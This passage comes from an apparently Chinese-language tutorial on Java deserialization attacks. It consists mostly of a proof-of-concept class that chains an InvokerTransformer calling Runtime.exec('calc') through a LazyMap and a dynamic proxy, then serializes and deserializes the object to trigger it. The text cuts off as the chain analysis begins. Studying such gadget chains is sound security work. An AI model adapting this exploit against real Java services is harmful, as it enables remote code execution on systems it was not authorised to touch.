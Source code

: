 public class LazyMapDynamicProxyExploit {
    public static void main(String[] args) throws Exception {
        // 1. 构造恶意的 Transformer
        Transformer transformer = new InvokerTransformer(
                "exec", // 调用 Runtime.getRuntime().exec
                new Class[]{String.class},
                new Object[]{"calc"} // 执行计算器，模拟 RCE
        );

        // 2. 创建 LazyMap，并绑定恶意 Transformer
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformer);

        // 3. 创建动态代理，包装 LazyMap
        InvocationHandler handler = new MyInvocationHandler(lazyMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(
                Map.class.getClassLoader(),
                new Class[]{Map.class},
                handler
        );

        // 4. 通过序列化和反序列化触发链条
        serialize(proxyMap);   // 序列化到文件
        deserialize("exploit.ser"); // 反序列化并触发漏洞
    }

    // 自定义 InvocationHandler
    static class MyInvocationHandler implements InvocationHandler {
        private final Object target;

        public MyInvocationHandler(Object target) {
            this.target = target;
        }

        @Override
        public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
            System.out.println("[Dynamic Proxy] Method called: " + method.getName());
            return method.invoke(target, args);
        }
    }

    // 序列化对象
    private static void serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("exploit.ser"));
        out.writeObject(obj);
        out.close();
        System.out.println("Object serialized to exploit.ser");
    }

    // 反序列化对象并触发漏洞
    private static void deserialize(String fileName) throws IOException, ClassNotFoundException {
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(fileName));
        in.readObject(); // 反序列化触发
        in.close();
    }
}
3. 分析攻击链条
链条触发原理
LazyMap：
